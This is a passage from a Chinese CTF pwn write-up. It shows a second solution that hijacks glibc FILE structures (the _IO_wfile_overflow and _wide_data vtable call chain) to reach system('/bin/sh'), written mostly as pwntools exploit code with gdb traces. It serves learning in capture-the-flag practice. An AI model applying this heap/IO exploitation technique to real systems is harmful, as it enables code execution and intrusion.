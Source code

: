 ```python

fake = flat({
    0: bytes(fake),
    0xe0: B                                             # 满足 *(A+0xe0)=B
})

# gdb.attach(p, 'b system')
p.send(fake)

p.interactive()
```

## 题解二

调用链 

`_IO_flush_all -> _IO_flush_all_lockp -> [_IO_wdefault_xsgetn](IO_wstrn_jumps) （伪造）`

`_IO_wfile_overflow -> _IO_wdoallocbuf -> _IO_WDOALLOCATE -> *(fp->_wide_data->_wide_vtable + 0x68)(fp)`

![](https://cdn.nlark.com/yuque/0/2024/png/35041275/1729432428766-825cf652-2d2f-4c2d-b578-8e73568dbe84.png)


```python
from pwn import *

context(arch='amd64', os='linux', log_level='debug')

path = './pwn'
p = process(path)
#p = remote('202.199.6.66', 39964)
elf = ELF(path)
libc = ELF('./libc.so.6')

p.recvuntil(b'puts_addr: ')
puts_address = int(p.recvline()[:-1], 16)
log.success(f'puts_address: {hex(puts_address)}')
libc.address = puts_address - libc.sym['puts']
log.success(f'libc.address: {hex(libc.address)}')

fp_address = libc.sym['_IO_list_all'] + 0x10
log.success(f'fp_address: {hex(fp_address)}')

fake = FileStructure(0)
fake._IO_write_ptr = 1                                  #mode = 0
fake._IO_write_base = 0                                 #cond.1 (fp->_mode <= 0 && fp->_IO_write_ptr > fp->_IO_write_base)

fake._lock = fp_address + 0x48                          #cond.2 _IO_flockfile (fp); _lock address vaild
fake._wide_data = fp_address                            #cond.3 vtable address(_wide_data)
fake.chain = libc.sym['system']                         #cond.4 vtable(*(_wide_data+0xe0))+0x68 -> win_address
fake.vtable = (libc.sym['_IO_wfile_jumps']+24) - 0x18   #cond.5 _IO_wfile_overflow  <_IO_flush_all_lockp+223>    call   qword ptr [rax + 0x18]
fake.flags = b' '*8                                     #cond.6    0x7b262828639e <_IO_wfile_overflow+14>     mov    eax, dword ptr [rdi]     EAX, [0x7b262841b690] => 0x6e69622f
                                                               # ► 0x7b26282863a0 <_IO_wfile_overflow+16>     test   al, 8                    0x2f & 0x8     EFLAGS => 0x202 [ cf pf af zf sf IF df of ]
                                                               #   0x7b26282863a2 <_IO_wfile_overflow+18>   ✔ jne    _IO_wfile_overflow+304      <_IO_wfile_overflow+304>                   
fake._IO_read_ptr = b'/bin/sh\x00'                      #空格填充后接着填入 /bin/sh

```
